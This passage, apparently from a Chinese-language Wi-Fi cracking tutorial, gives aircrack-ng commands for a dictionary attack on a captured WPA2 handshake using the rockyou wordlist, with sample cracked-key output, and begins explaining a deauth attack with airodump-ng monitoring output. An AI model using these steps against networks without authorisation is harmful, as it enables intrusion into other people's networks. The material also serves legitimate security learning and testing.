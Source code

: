 如果你想直接使用 `hashcat` 而不是 `naive-hashcat` 的话请参考[这个页面](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)。

### 利用 Aircrack-ng 破解

Aircrack-ng 可以用于在你的 CPU 上运行来进行非常基本的字典攻击。在你运行攻击之前，你需要一个单词表。我推荐使用非常著名的 rockyou 字典文件：

```bash
# 下载 134MB rockyou 字典文件
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

注意，如果网络密码不再这个单词文件话，你将不能破解密码。

```bash
# -a2 指定 WPA2，-b 是 BSSID，-w 是字典文件
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt hackme.cap
```

如果密码被破解了，你将会在终端看到一个 `KEY FOUND!` 消息，后面跟着的文本就是网络密码。

```shell
                                 Aircrack-ng 1.2 beta3


                   [00:01:49] 111040 keys tested (1017.96 k/s)


                         KEY FOUND! [ hacktheplanet ]


      Master Key     : A1 90 16 62 6C B3 E2 DB BB D1 79 CB 75 D2 C7 89 
                       59 4A C9 04 67 10 66 C5 97 83 7B C3 DA 6C 29 2E 

      Transient Key  : CB 5A F8 CE 62 B2 1B F7 6F 50 C0 25 62 E9 5D 71 
                       2F 1A 26 34 DD 9F 61 F7 68 85 CC BC 0F 88 88 73 
                       6F CB 3F CC 06 0C 06 08 ED DF EC 3C D3 42 5D 78 
                       8D EC 0C EA D2 BC 8A E2 D7 D3 A2 7F 9F 1A D3 21 

      EAPOL HMAC     : 9F C6 51 57 D3 FA 99 11 9D 17 12 BA B6 DB 06 B4 
```

# Deauth Attack

Deauth 攻击会将伪造的身份验证数据包从您的计算机发送到连接到您尝试破解的网络的客户端。 这些数据包包括伪造的 “发件人” 地址，使得它们像客户端那样从接入点本身发送出去。 收到这样的数据包后，大多数客户端断开与网络的连接，并立即重新连接，如果您正在使用`airodump-ng`进行侦听，就能捕获到 4-way handshake。

使用 `airodump-ng` 监视特定接入点（使用 `-c channel --bssid MAC`），直到看到客户端（`STATION`）连接。 连接的客户端看起来像这样，`64：BC：0C：48：97：F7` 是客户端 MAC。

```shell
 CH  6 ][ Elapsed: 2 mins ][ 2017-07-23 19:15 ]                                         

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 9C:5C:8E:C9:AB:C0  -19  75     1043      144   10   6  54e  WPA2 CCMP   PSK  ASUS

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 9C:5C:8E:C9:AB:C0  64:BC:0C:48:97:F7  -37    1e- 1e     4     6479  ASUS
```
